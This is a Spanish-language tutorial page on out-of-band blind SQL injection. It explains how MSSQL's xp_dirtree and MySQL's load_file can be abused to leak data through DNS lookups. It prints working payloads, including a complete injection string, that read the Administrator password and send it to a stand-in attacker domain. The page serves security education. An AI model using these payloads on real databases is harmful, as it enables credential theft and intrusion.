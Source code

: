 ```yaml
---
layout: default
title: 4.4 Fuera de banda
permalink: /injection_types/blind/oob_type
nav_order: 4
parent: 4. Inyecciones ciegas
has_children: true
---
```


# Inyecciones ciegas con interacción fuera de banda

Una SQLi ciega **fuera de banda** (*out-of-band*, *OOB*) implica enviar la información consultada a través de **un canal diferente** al utilizado para la interacción con la aplicación. Por ejemplo, el atacante puede utilizar comandos SQL que envíen información a través de una **conexión de red directa**, una **solicitud DNS** o una **solicitud HTTP**. Una vez que el atacante ha enviado la inyección, debe esperar a recibir la respuesta de la base de datos **en el canal alternativo** elegido.

En otras palabras, hay que obligar al DBMS no solo a generar una respuesta, sino también a abrir un canal alternativo de comunicación.

![Out of band diagram](/sqli-en-la-practica/assets/oob.png)

Para ejemplificar un caso de ataque se analiza un escenario con *Microsoft SQL Server* y el canal alternativo será por medio del **protocolo DNS**. Usualmente este método es efectivo ya que muchas redes permiten salida libre de consultas DNS, debido a **su importancia en el funcionamiento de los sistemas** de producción. El método para construir la consulta se apoya en la [SQL injection cheat sheet de PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet).

Asumiendo un punto de inyección como los de las secciones anteriores donde se puede escribir una consulta arbitraria, se considera el siguiente fragmento de *payload*:

```sql
exec master..xp_dirtree '//dominio.atacante.net/x'
```

Este SQL ejecuta un procedimiento almacenado de MSSQL llamado `xp_dirtree`, cuyo parámetro es el texto `'//dominio.atacante.net/x'`. `xp_dirtree` sirve para listar carpetas del sistema operativo y el parámetro **debería** ser una ruta como `C:/`. Sin embargo, abusando de la implementación de `xp_dirtree` (**si la versión y configuración del DBMS lo permiten**) esto **resultaría en una petición DNS para que el DBMS pueda obtener la IP** de `dominio.atacante.net`. Si se tiene control del servidor DNS que responde por ese dominio, se pueden obtener las consultas DNS hechas.

Herramientas como [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) cumplen este propósito, proveyendo un dominio público utilizable en este tipo de ataques y al que se pueden consultar los pedidos recibidos (HTTP y DNS). Este se encuentra disponible junto con la licencia de BurpSuite Professional, una alternativa gratuita puede ser [Interactsh](https://github.com/projectdiscovery/interactsh).

Si se recibe la consulta DNS, el siguiente paso es **agregar el resultado de una consulta al propio dominio**. Por ejemplo con la siguiente secuencia de sentencias SQL:

```sql
declare @p varchar(1024);
set @p=(SELECT password FROM users WHERE username='Administrator');
exec('master..xp_dirtree "//'+@p+'.dominio.atacante.net/x"')
```

Esto puede resultar en un pedido DNS, iniciado por el DBMS, recibido por el servidor del atacante, consultando por la IP de `47b7bfb65fa83ac9a71dcb0f6296bb6e.dominio.atacante.net`. En este ejemplo, `47b7bfb65fa83ac9a71dcb0f6296bb6e` es un hash MD5 del texto `Passw0rd!`.

El *payload* completo que podría aplicar a este ejemplo es:

```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.dominio.atacante.net/x"')--
```

Un ejemplo de fragmento de SQL análogo para MySQL sería:

```sql
SELECT load_file(CONCAT(
    '\\\\',
    (SELECT password FROM users WHERE username='Administrator'),
    '.',
    'dominio.atacante.net\\test.txt'))
```

La función `load_file()` carga archivos del sistema de archivos del DBMS, al intentar resolver la ruta de un archivo remoto `test.txt`, pide por DNS la IP del dominio indicado.